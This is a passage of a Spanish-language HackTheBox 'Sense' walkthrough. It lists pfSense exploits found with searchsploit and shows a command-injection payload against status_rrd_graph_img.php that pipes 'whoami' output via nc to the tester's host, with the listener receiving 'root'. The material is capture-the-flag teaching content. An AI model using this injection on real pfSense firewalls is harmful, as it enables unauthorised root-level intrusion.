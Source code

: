 ```bash
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                   | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                        | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                      | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                              | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery                                                  | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                 | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                     | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                   | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                              | freebsd/webapps/24439.txt
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Uno que ya nos debería llamar la atención sería para el recurso `status_rrd_graph_img.php`; pero en vez de ejecutar el exploit y ya, vamos a ver que hace y tratar de replicarlo para acomodarlo como nosotros querramos.

Vemos que se aprovecha del recurso `/status_rrd_graph_img.php` y agrega los parámetros `?database=queues;` y posterior inyectamos los comandos que queramos. Así que vamos a validar.

![](/assets/images/htb-sense/sense-web3.png)

Nos dice que no se puede mostrar la imagen, pero la web tardó 5 segundos en responder; por lo tanto tenemos una vía potencial de ejcutar comandos. También podríamos validar haciendo un `whoami` y mandando la respueta por `nc`:

```bash
https://10.10.10.60/status_rrd_graph_img.php?database=queues;whoami | nc 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.60] 50594
root
```
